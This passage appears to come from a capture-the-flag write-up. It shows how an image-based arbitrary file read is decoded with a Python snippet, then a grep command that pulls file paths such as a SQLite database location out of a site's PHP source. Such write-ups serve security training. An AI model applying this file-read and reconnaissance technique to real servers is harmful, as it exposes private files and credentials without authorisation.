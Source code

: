 ```python
file_contents = decode("out.png")

#print the output:
output = f"""
============================
file: {local_file}
----------------------------
{file_contents}
============================
"""
print(output) 
```
now we are able to read any file on the server if we know where it is located and have the correct permissions.
Next I look through the php files in the .get repo for filepaths on the server to read.

this command pulls out text in single or double quotes from all the text in the php files of the .get repo:
```bash
cat .get/*.php | grep -Eo "'.*?'" | grep -Eo '[^'\'']+'

user
user
user
sqlite:/var/db/pilgrimage
assets/images/banner-04.jpg
menu-trigger
" + allImages[i]["url"] + "
user
user
REQUEST_METHOD
] === 
POST
png
,
jpeg
user
sqlite:/var/db/pilgrimage
user
menu-trigger
message
) && urlParams.has(
status
status
) == 
fail
message
" + urlParams.get(
message
) + "
>" + urlParams.get(
message
user
REQUEST_METHOD
] === 
POST
 && $_POST[
username
] && $_POST[
password
username
password
sqlite:/var/db/pilgrimage
user
```